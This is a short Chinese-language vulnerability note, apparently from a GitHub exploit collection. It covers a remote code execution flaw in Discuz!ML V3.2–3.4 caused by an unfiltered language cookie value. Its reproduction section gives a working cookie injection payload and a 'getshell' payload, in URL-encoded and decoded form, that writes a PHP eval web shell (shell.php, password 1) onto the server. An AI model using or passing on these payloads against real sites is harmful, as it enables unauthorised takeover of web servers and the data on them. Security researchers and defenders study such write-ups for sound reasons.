 ```yaml
---
title: Discuz！ML 3.x代码执行漏洞
id: zhfly2880
---
```


# Discuz!ML 3.x 代码执行漏洞

## 一、漏洞简介

漏洞类型：代码执行漏洞
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。

## 二、影响范围

*   Discuz!ML V3.2-3.4

## 三、复现过程

cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE
抓包找到cookie的language的值修改为

```
xxxx_xxxx_language=sc'.phpinfo().' 
```

getshell

```
%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27 
```

实际为：

```
'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).' 
```

即可在路径下生成shell.php，连接密码为1

## https://github.com/ianxtianxt/discuz-ml-rce